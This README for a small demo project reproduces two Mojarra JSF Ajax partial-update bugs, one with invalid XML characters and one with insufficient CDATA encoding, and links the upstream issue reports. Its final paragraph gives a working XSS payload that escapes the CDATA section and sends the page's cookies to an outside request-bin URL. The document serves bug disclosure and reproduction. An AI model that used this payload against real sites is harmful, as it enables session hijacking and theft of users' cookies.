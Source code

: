 # mojarra-ajax
Minimal demo to reproduce some issues with mojarra partial update.

To reproduce just run
````bash
mvn package wildfly:run
````
and wait for the server to start up.

## Issue: [Ajax update fails due to invalid characters in response XML](https://github.com/eclipse-ee4j/mojarra/issues/4516)

Open the url <http://localhost:8080/ajax/index.xhtml>.

It also works for user supplied inputs, open <http://localhost:8080/ajax/input.xhtml> and enter the [\u000C](https://r12a.github.io/uniview/?charlist=%0C#title) character 
into the input field.

## Issue: [Partial rendering: insufficient CDATA encoding](https://github.com/eclipse-ee4j/mojarra/issues/4392)

Open the url <http://localhost:8080/ajax/issue4392.xhtml>, enter `]]>` and click at the button to see the XML parser crashing (denial of service).

However, this vulnerability might also be used to inject arbitrary javascript (XSS). Just enter `]]></update><eval><![CDATA[window.open("https://postb.in/Kva1OZoi?cookie="+encodeURIComponent(document.cookie));]]></eval><update><![CDATA[` and see how your cookie has been sent to https://postb.in/b/Kva1OZoi.
